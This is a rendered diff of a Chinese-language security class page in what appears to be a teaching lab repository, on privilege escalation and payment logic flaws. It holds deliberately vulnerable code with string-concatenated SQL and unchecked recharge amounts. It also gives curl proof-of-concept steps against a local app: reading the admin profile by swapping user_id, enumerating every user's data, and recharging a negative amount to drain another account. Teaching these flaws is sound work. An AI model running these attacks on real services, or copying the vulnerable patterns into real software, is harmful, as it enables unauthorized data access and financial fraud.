

Before and after one commit to mcc0624/AI-Security-Lab, a Markdown page: .claude/class/day-05-privilege-escalation.md, the part around one of its changes. Shown at 81% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: add day-05 privilege escalation class doc with verified POC

````diff
--- a/.claude/class/day-05-privilege-escalation.md
+++ b/.claude/class/day-05-privilege-escalation.md
@@ -56,90 +89,54 @@ def update_user_profile(user_id, email, phone):
 
-**问题**：未校验当前用户的 `role` 是否为 `admin`，普通用户只要知道 admin 的 `user_id=1` 即可修改管理员资料。
-
-### 漏洞 3：支付逻辑漏洞
-
-```python
-def process_recharge(user_id, amount):
-    conn = _get_connection()
-    cursor = conn.cursor()
-    # ↓↓↓ 漏洞行：amount 未校验正负
-    cursor.execute(f"UPDATE users SET balance = balance + {amount} WHERE id = {user_id}")
-```
-
-**问题**：
-- `amount` 可以是负数，攻击者可输入 `-10000` 来减少他人余额
-- 无幂等校验，同一请求可重复发送
-- `amount` 是字符串拼接，还存在 SQL 注入风险
-
----
-
-## 三、漏洞成因总结
-
-| 漏洞 | 根本原因 | 攻击示例 |
-|------|---------|---------|
-| 水平越权 | 未验证资源所有权 | alice 查看 admin 资料 |
-| 垂直越权 | 未验证用户角色 | 普通用户修改管理员资料 |
-| 支付漏洞 | 未校验金额正负 | 充值 -10000 元 |
-| 参数篡改 | 关键参数由客户端传入 | 修改 user_id、amount |
+提示词要求使用字符串拼接 SQL，充值功能同样存在 SQL 注入风险。
 
 ---
 
 ## 四、POC 代码
 
-### POC 1：水平越权——查看他人信息
+### POC 1：水平越权
 
 ```bash
 # 以普通用户 alice 登录
-curl http://127.0.0.1:5000/login \
-  -d "username=alice&password=alice2025" \
-  -c /tmp/cookies_alice.txt
+curl http://127.0.0.1:5000/login -d "username=alice&password=alice2025" -c /tmp/cookies.txt
 
-# 越权查看管理员信息
-curl "http://127.0.0.1:5000/profile?user_id=1" \
-  -b /tmp/cookies_alice.txt | grep "admin\|99999"
+# 查看自己的资料（user_id=2）
+curl "http://127.0.0.1:5000/profile?user_id=2" -b /tmp/cookies.txt
+
+# 越权查看 admin 资料（user_id=1）
+curl "http://127.0.0.1:5000/profile?user_id=1" -b /tmp/cookies.txt
 ```
 
-**预期结果**：alice 可以看到 admin 的用户名、邮箱、余额等信息。
+**预期结果**：alice 可以查看 admin 的所有信息。
 
 ### POC 2：遍历所有用户
 
 ```bash
-# 用 alice 的 cookie 遍历用户
+# 用 alice 的身份遍历用户
 for i in 1 2 3 4 5; do
   echo "=== user_id=$i ==="
-  curl "http://127.0.0.1:5000/profile?user_id=$i" \
-    -b /tmp/cookies_alice.txt | grep -oP '(?<=用户名</strong>)[^<]+'
+  curl "http://127.0.0.1:5000/profile?user_id=$i" -b /tmp/cookies.txt | grep -E "ID|用户名|邮箱|手机|余额"
 done
 ```
 
-**预期结果**：alice 可以查看系统中任意用户的信息。
-
-### POC 3：支付负金额
+### POC 3：负金额充值
 
 ```bash
-# 使用 alice 给 admin 充值负金额（扣钱）
-curl http://127.0.0.1:5000/recharge \
-  -b /tmp/cookies_alice.txt \
-  -d "user_id=1&amount=-10000"
+# alice 给 admin 充值负金额（扣钱）
+curl http://127.0.0.1:5000/recharge -b /tmp/cookies.txt -d "user_id=1&amount=-5000"
 
 # 验证 admin 余额减少
-curl "http://127.0.0.1:5000/profile?user_id=1" \
-  -b /tmp/cookies_alice.txt | grep "余额"
+curl "http://127.0.0.1:5000/profile?user_id=1" -b /tmp/cookies.txt
 ```
 
-**预期结果**：admin 的余额从 99999 减少到 89999（被扣了 10000）。
+**预期结果**：admin 的余额减少（变负数），说明负金额没有被拦截。
 
 ---
 
-## 五、POC 代码测试方法（Burp Suite）
+## 五、Burp Suite 测试方法
 
-### 测试水平越权
+### 测试越权
 
-1. **登录 alice 账号**（`alice / alice2025`）
-2. 访问个人中心，Burp 拦截到请求：
-   ```
-   GET /profile?user_id=2 HTTP/1.1
-   Cookie: session=...
-   ```
-3. 发送到 Repeater
+1. 以 alice 登录
+2. 访问 `/profile?user_id=2` 查看自己的资料
+3. 将请求发送到 Repeater
 4. 修改 `user_id=2` 为 `user_id=1`
````
Also changed, not shown: other parts of .claude/class/day-05-privilege-escalation.md (+140 -140 lines).
